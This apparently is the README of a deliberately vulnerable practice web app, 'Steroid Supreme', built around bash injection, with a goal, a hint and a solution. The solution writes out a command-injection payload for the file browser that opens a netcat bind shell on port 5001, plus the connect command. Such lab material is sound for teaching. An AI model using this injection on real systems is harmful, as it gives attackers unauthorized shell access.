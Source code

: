 # Steroid-Supreme


## About

Steroid Supreme is a vulnerable web app based on bash-injection.

## Goal

Your goal is to get shell access on the machine running steroid-supreme.


## Hints

Can you get the file browser to break?


## Solution:

Enter the following in the file browser:
```bash
; nc -lvp 5001 -e /bin/bash
```

Run the following in a terminal:
```bash
nc <ip of steroid supreme> 5001
```
